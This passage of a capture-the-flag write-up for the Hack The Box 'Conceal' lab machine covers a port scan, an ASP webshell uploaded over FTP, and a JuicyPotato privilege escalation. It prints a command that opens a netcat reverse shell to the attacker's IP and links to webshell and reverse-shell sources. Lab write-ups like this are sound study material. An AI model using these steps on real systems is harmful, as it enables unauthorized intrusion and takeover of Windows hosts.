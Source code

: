 Then i reran a scan of ports **TCP** with **nmap** and I found this:

```bash
sudo nmap -sT -p- --min-rate 10000 -Pn 10.10.10.116 -oG allPorts
```

![Untitled](/HTB/8-conceal.png)

![Untitled](/HTB/9-conceal.png)

I quickly realized that there was a web page and we were allowed to connect via ftp, so I uploaded a pruebfile, test.txt and went to the /upload/ directory to see if it was there. And it was 😎

Then I tried with a reverse shell with extension **.config**, or **.aspx**, but it didn't work, so I tried with **.asp** and it worked.

![Untitled](/HTB/10-conceal.png)

I upload the file `webshell.asp` :

![Untitled](/HTB/11-conceal.png)

I leave the link to the webshell.asp exploit here → https://github.com/tennc/webshell/blob/master/asp/webshell.asp

![Untitled](/HTB/12-conceal.png)

website → https://www.revshells.com/

![Untitled](/HTB/13-conceal.png)

![Untitled](/HTB/14-conceal.png)

At this point I was in 😇

## Escalating Privileges

I was logged in as the destitute user, but I could not access the administrator user so I had to escalate privileges.

![Untitled](/HTB/15-conceal.png)

I did a systeminfo on the windows machine to run it through the windows-vuln-sugester, but I was trying some of the results it gave me and none of them worked. 

![Untitled](/HTB/16-conceal.png)

Then I did the usual `whoami /priv` and saw that was vulnerable to `JuicyPotato`, so the following is history 😎

I execute this command on the victim powershell and I recived the shell on my listener machine at port 443.

```bash
./JuicyPotato.exe -t * -l 1337 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.11 443"
```

![Untitled](/HTB/17-conceal.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I learn more about UDP ports and VPN’s.
    
- Where there any novel tools or techniques employed?
    
    The use of onesixtyone, snmpwalk, etc.
